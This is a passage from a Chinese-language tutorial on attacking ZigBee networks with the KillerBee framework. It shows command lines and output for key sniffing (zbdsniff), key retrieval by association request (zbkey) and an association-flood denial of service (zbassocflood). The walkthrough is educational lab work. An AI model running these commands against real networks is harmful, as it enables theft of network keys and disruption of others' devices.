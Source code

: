### 嗅探密钥

**zbdsniff** 工具可以从ZigBee网络抓取的流量数据包pcap文件中发现明文的密钥key，并返回key。

```
root@raspberrypi:/home/pi/Desktop# zbdsniff -f operating.pcap -k c028128de295be0708aebe9eed
Processing operating.pcap
[+] Processed 1 capture files.
```

但是我没有从文件中得到任何输出，可能没有找到可用的key。

**zbkey** 与 zbdsniff 目的相似，不同的是 zbkey 会向协调器发送连接，然后发送数据请求来检索获取密钥，而不是扫描pcap文件。-f 参数指定信道，-s 定时，-p 参数指定 PAN ID，-a 参数指定ZigBee硬件地址。但是没有返回成功。

```
root@raspberrypi:/home/pi/Desktop# zbkey -f 15 -s 0.1 -p d85b -a 00124b0022305e4b 
Sending association packet...
Sending data request packet...
Received frame                                          .^
Length of packet received in associate_handle: 54
0000:  61 88 ac 5b d8 c4 10 00 00 08 02 c4 10 00 00 1e   a..[............
0010:  81 28 49 b4 09 00 3a a9 da fe ff 27 71 84 00 ce   .(I...:....'q...
0020:  8c 9f 39 98 2e 26 f8 2c d1 54 ca 0a d9 2d fb 6c   ..9..&.,.T...-.l
0030:  06 82 e3 29 03 00                                 ...)..

Received frame
Length of packet received in associate_handle: 50
0000:  61 88 cd 5b d8 08 0c a2 c4 08 02 08 0c 00 00 1d   a..[............
0010:  85 28 47 99 02 00 4b 5e 30 22 00 4b 12 00 00 b5   .(G...K^0".K....
0020:  a9 58 f8 e2 96 ed ab 4f 9b 50 76 b4 99 d2 99 1a   .X.....O.Pv.....
0030:  09 d1                                             ..

Received frame
Length of packet received in associate_handle: 5
0000:  02 00 af 45 e8                                    ...E.

Sorry, we didn't hear a device respond with an association response. Do you have an active target within range?
```

### 拒绝服务攻击

KillerBee 框架提供了 **zbassocflood**工具，该工具尝试将大量关联请求发送到目标网络。需要PAN ID（-p），信道（-c）和定时（-s）。

```
root@raspberrypi:/home/pi/Desktop# zbassocflood -p d85b -c 15 -s 0.1
zbassocflood: Transmitting and receiving on interface '/dev/ttyUSB0'
.............
^C
Sent 13 associate requests.
```

KillerBee的攻击方式大致分为，发现设备（zbstumbler、zbopenear、zbfind），嗅探流量（zbdump、zbwireshark），获取密钥（zbdsniff、zbkey、zbgoodfind），重放流量（zbscapy、zbreplay），拒绝服务（zbscapy、zbassocflood）。